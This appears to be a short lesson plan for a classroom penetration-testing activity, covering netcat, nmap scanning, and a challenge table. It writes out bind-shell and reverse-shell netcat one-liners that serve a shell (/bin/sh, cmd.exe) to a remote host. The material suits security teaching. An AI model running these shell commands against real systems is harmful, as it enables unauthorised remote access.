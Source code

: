 # Penetration Testing "Hacking" Activity

"Hacking" mini activity


* [Resources](#resources)
* [Lesson Plan](#lesson)
* [Worksheet](#worksheet)

<h2 id="resources">Resources</h2>

* Laptop
* Install nmap on all machines
* (Optional) Mobile device
* (Optional) Fing App
* (Optional) Termux

<h2 id="lesson">Lesson Plan</h2>

<h3>Shells</h3>

	ls/dir
	cd ..

<h3>Netcat</h3>

	nc -nvvv 10.10.10.10 80
	nc -nlvp 4444

<h3>Scanning</h3>

	nc -z -v 10.10.10.10 1-100
	nmap 10.10.10.10
	nmap 10.10.10.0/24

<h3>Bind Shell</h3>

	nc -nlvp 4444 -e /bin/sh
	nc -nlvp 4444 -e cmd.exe

	nc -nvvv 10.10.10.10 4444

<h3>Reverse Shell</h3>

	ncat -nlvp 4444
	nc -nvvv 10.10.10.10 4444 -e /bin/sh 
	nc -nvvv 10.10.10.10 4444 -e cmd.exe

<h3>Challenge</h3>

|10 | 50| 100| 500|
|:--|:--|:--|:--|
|Find my laptop|Find hidden service|Exploit vulnerability|Upload a file|
|Find a windows machine|Find open ports|Find OS version|Find an exploit|
|Find my mobile device|Find the hidden port|Download a file|Setup a malicious website for this device|
|Find a printer|Find version of printer|Find a vulnerable service|Print a page on the printer|

<h2 id="worksheet">Worksheet</h2>

 
